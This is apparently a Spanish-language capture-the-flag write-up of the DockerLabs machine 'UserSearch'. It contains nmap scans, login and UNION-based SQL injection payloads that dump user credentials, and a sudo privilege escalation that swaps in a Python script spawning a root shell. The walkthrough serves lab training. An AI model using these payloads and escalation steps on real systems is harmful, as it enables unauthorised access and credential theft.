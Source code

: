 #MAQUINA #DOCKERLABS #MEDIO 
#SQLI #MANUAL_SQLI
<hr>

# RECONOCIMIENTO

Vamos a resolver **UserSearch** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.18.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 11:36 CET
Initiating ARP Ping Scan at 11:36
Scanning 172.18.0.2 [1 port]
Completed ARP Ping Scan at 11:36, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:36
Scanning 172.18.0.2 [65535 ports]
Discovered open port 80/tcp on 172.18.0.2
Discovered open port 22/tcp on 172.18.0.2
Completed SYN Stealth Scan at 11:36, 0.55s elapsed (65535 total ports)
Nmap scan report for 172.18.0.2
Host is up, received arp-response (0.0000040s latency).
Scanned at 2025-03-17 11:36:26 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:12:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.78 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.18.0.2 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 11:36 CET
Nmap scan report for 172.18.0.2
Host is up (0.000016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ea:6b:ef:51:9c:00:c4:d4:24:17:90:be:6d:0a:26:79 (ECDSA)
|_  256 62:97:b5:91:0c:b0:8f:06:bd:ad:e3:d5:14:3d:f1:74 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: User Search
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.55 seconds




```

   ```bash

nmap --script="http-enum" 172.18.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 11:37 CET
Nmap scan report for 172.18.0.2
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:12:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos que hay un login.
Si ponemos admin, nos da su contra. La probamos y nada.
# EXPLOTACION

Vemos si es vulnerable a **SQLI**:

   ```bash
admin' or 1=1 -- -
```

Nos muestra usuarios y sus contras:
```html
<p>Username: admin - Password: adminpassword</p><p>Username: user1 - Password: user1password</p><p>Username: kvzlx - Password: kvzlxpassword</p>
```

ESTAMOS COMO KVZLX al entrar vía ssh.

**PASO A PASO :** 

Vamos a hacerlo ahora paso a paso, primero vamos a ver el numero de columnas:

```bash
'order by 3 -- -
```

A partir de 3 no nos devuelve "NO RESULTS"

Ahora vamos a mostrar la db :

```bash
'union select 1,database(),3 -- -
'union select 1,group_concat(schema_name),3 from information_schema.schemata -- -
```

Se llama **testdb**.

```base
'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="testdb"-- -
```

La tabla es **users**.

```base
'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema="testdb" and table_name="users"-- -
```

Tenemos las columnas **id**, **username** y **password**.

```base
'union select 1,group_concat(username, ':', password),3 from testdb.users -- -
```

Nos saca lo mismo :
```bash
Username: admin:adminpassword,user1:user1password,kvzlx:kvzlxpassword - Password: 3
```

ESTAMOS COMO KVZLX al entrar vía ssh.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
kvzlx@657f6c597386:~$ sudo -l
Matching Defaults entries for kvzlx on 657f6c597386:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User kvzlx may run the following commands on 657f6c597386:
    (ALL) NOPASSWD: /usr/bin/python3 /home/kvzlx/system_info.py


```

Vemos **/home/kvzlx/system_info.py** con permisos SUDO, que aunque no es nuestro, como esta dentro de nuestro directorio personal podemos eliminarlo y crear otro :

   ```bash
kvzlx@657f6c597386:~$ cat system_info.py 
import os

os.execv("/bin/bash",["-p"])
kvzlx@657f6c597386:~$ sudo /usr/bin/python3 /home/kvzlx/system_info.py
root@657f6c597386:/home/kvzlx# whoami
root
root@657f6c597386:/home/kvzlx# 

```

**YA ESTAMOS COMO ROOT.**